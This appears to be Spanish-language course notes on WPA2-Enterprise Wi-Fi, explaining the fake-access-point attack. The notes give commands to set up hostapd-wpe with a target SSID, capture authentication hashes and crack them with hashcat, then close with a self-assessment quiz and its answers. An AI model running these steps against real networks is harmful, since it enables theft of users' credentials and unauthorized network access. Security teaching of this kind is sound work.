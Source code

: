 Las redes **WPA/WPA2-Enterprise** ofrecen un mayor control de acceso mediante autenticación individual de usuarios. Sin embargo, presentan vulnerabilidades que pueden ser explotadas mediante un **Punto de Acceso Falso**.

## Características
### Autenticación

- Basada en credenciales de usuario (usuario/contraseña).
- Basada en certificados de cliente.

### Identificación del Punto de Acceso

- Mediante certificados SSL.
- Los dispositivos clientes deben confiar en la CA utilizada para emitir los certificados.

### Distribución de la CA

- Por **GPO** en entornos de Active Directory.
- Mediante **MDM** para dispositivos como Linux, macOS, Android, e iOS.



## Usos
- Redes corporativas con necesidad de control de acceso por usuario.
- Trazabilidad de acciones realizadas por los usuarios.



### Problemas Asociados
1. Acceso directo a la red corporativa desde Wi-Fi.
2. No todos los dispositivos soportan esta tecnología.
3. Necesidad de distribuir la CA de manera segura y eficiente.
4. Sin validación del certificado del Punto de Acceso, es posible realizar ataques de **Punto de Acceso Falso**.

## Ataque: Punto de Acceso Falso
### Requisitos

- La autenticación debe ser mediante **credenciales de usuario**.
- Los dispositivos no deben validar el certificado del Punto de Acceso.

### Detalles del Ataque

- Configurar un Punto de Acceso Falso con **hostapd-wpe**.
- Capturar intentos de autenticación y extraer hashes de autenticación.
- Realizar un proceso de cracking sobre los hashes capturados.

![image-20241121115808892](img/ataqueAPfalso.png)

### Implementación

- Instalar hostapd-wpe
```bash
  $ apt-get install hostapd-wpe
```
- Detener NetworkManager
```bash
  $ systemctl stop NetworkManager
```
- Configurar el archivo de hostapd-wpe
```bash
  $ vim /etc/hostapd-wpe/hostapd-wpe.conf
```
Configuración del archivo
```
  interface=wlan0
  ssid=[ssid_de_la_red]
  channel=[1-14] [36-136]
  mode=g # Para 2,4 GHz
  mode=a # Para 5 GHz
```

- Iniciar hostapd-wpe:
```bash
  $ hostapd-wpe /etc/hostapd-wpe/hostapd-wpe.conf
```
- Capturar intentos de autenticación:
	- Los hashes capturados pueden ser procesados con **hashcat**
```bash
    $ hashcat -m 5500 -a 0 hashes-capturadas.txt /usr/share/wordlists/rockyou.txt
    $ hashcat -m 5500 -a3 hashes-capturadas.txt -1 ?u?l?d ?1?1?1?1?1?1?1?1
```
## Para Saber Más
Consulta este [video en YouTube](https://www.youtube.com) sobre ataques WPA2-Enterprise mediante Punto de Acceso Falso con hostapd-wpe.

## Autoevaluación

¿Cuáles son las premisas necesarias para que un ataque de tipo Punto de Acceso Falso sea efectivo en redes WPA2-Enterprise?  

- La autenticación de los clientes debe realizarse mediante certificados.
   - **Incorrecto**
- La autenticación de los clientes debe realizarse mediante credenciales (usuario/contraseña).
		- **Correcto**
- El dispositivo cliente debe estar configurado para no validar el certificado del Punto de Acceso.
   - **Correcto**

